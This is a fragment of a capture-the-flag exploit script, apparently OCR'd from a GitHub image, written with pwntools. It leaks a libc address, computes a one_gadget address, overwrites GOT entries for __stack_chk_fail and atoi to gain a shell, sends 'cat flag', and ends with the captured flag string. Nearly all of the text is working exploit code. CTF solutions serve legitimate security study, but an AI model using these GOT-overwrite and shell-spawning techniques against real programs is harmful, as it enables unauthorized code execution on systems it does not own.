 ```
 log.info("leak libc 0x%x" % leak_atoi)
 libc_base = ( online ) and ( leak_atoi - 0x0002d250) or ( leak_atoi - 0x0002d250)
 log.info("libc base addr 0x%x"% libc_base)

 one_gadget = online and (libc_base + 0x0003ada0 ) or (libc_base + 0x0003ada0) #system instead
 log.info("one gadget addr 0x%x"%  one_gadget)

 #shell
 stack_fail = 0x804a024
 stack_fail_plt = 0x8048540

 send_payload(( one_gadget & 0x00ffffff) , 0, 1, stack_fail )
 send_payload(((one_gadget & 0xffffff00 ) >> 8 )  , 0, 1, stack_fail+1 ) 
 send_payload( stack_fail_plt, 0, 1, atoi_got)

 r.recvuntil("to sort?")
 r.sendline("1")
 r.recvuntil("number:")
 r.sendline("cat flag\x00")
 interactive()# *CTF{lSkR5u3LUh8qTbaCINgrjdJ74iE9WsDX}

exploit()
```

